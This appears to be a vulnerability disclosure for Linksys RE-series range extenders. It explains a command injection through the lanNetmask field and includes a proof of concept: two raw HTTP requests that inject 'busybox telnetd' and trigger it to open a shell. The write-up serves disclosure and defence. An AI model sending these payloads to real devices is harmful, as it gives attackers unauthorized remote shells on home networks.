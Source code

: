 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setLan` function, `lanNetmask、lanIp` is directly passed by the attacker, so we can control the `staticIp、lanNetmask、lanIp` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `setDFSSetting` function.

`mod_form.so->internet.sh->um_red`

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

Vulnerability trigger steps:

* set `lanNetmask`=**255.255.255.0`busybox telnetd`**, in (`setLan`)
* Trigger the vulnerability, in (`setDFSSetting`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `lanNetmask` as **255.255.255.0`busybox telnetd`** , and the router will excute it,such as:

```http
POST /goform/setLan HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1320
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=zgvNXSgIwwGhiS5kNKaXqABueSEcgStd
Upgrade-Insecure-Requests: 1

lanIp=192.168.1.1&lanNetmask=255.255.255.0`busybox telnetd`&lan2enabled=&lan2Ip=&lan2Netmask=&lanDhcpType=&stpEnbl=&lltdEnbl=&igmpEnbl=&upnpEnbl=&pppoeREnbl=&dnspEnbl=&dhcpStart=&dhcpEnd=&dhcpMask=&dhcpGateway=&dhcpLease=&dhcpStatic1=&dhcpStatic=&dhcpStatic3=
```

Trigger the vulnerability, in (`setDFSSetting`)

```http
POST /goform/setDFSSetting HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1320
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=zgvNXSgIwwGhiS5kNKaXqABueSEcgStd
Upgrade-Insecure-Requests: 1

dfsSwitch=
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

